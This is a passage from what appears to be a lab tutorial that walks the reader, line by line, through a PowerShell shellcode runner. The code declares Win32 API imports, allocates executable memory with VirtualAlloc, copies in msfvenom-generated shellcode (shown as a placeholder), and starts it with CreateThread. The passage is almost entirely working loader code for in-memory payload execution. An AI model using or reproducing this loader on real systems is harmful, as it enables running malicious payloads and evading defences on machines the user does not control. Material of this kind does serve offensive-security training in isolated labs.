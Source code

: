 ```shell
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
 
}
"@
Add-Type $CrtThread 
```

Then paste the line below, replacing the placeholder with the shellcode generated by msfvenom, and press`Enter`.

```shel
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```

Continue copying and pasting the lines from the code below. Remember, copy one line at a time, paste it, and press`Enter`.

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

If you've done it properly, the PowerShell terminal in the VM will look like the screenshot below:
